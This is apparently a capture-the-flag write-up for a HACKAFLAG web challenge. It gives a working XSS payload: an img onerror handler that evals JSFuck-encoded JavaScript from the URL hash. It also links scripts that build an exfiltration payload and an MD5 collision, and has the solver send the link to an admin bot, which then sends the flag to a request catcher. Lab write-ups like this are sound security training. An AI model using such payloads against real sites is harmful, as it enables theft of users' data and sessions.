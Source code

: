 **Challenge:** http://159.65.249.122:4111/

Payload: `http://159.65.249.122:4111/?<img src onerror =eval(unescape(eval(location.hash.substr(1))))>#<JS code>`
Ps: `location.hash.substr(1)` has to be encoded using [JSFuck](http://www.jsfuck.com/) (uncheck `Eval source` option)

Create an HTTP server or you can use some online solutions like https://webhook.site/ or https://requestbin.com/.

Use this [javascript code](https://gist.github.com/EffectRenan/9e85ddc199668e7b56decd88c875ef6e) to generate a payload which use `eval` function.
  - Edit the variable `host` with your URL.
  - Execute: `node eval-charcode.js`.

Final payload: `http://159.65.249.122:4111/?<img src onerror =eval(unescape(eval(<JSFuck encoded>)))>#<Eval function generated>`

Access `http://159.65.249.122:4111/contact` to get the bytes for hash collision.

Use [this python script](https://gist.github.com/EffectRenan/2425aa1ab52e35f6f8ee8b31b2582d65) to generate a hash collision.
  - `python2 MD5-collision.py "<bytes given>" 0`

Send the final payload to Admin and you will receive a request with the flag.

**Flag**: HACKAFLAG{Noth1n_h4rd_here}
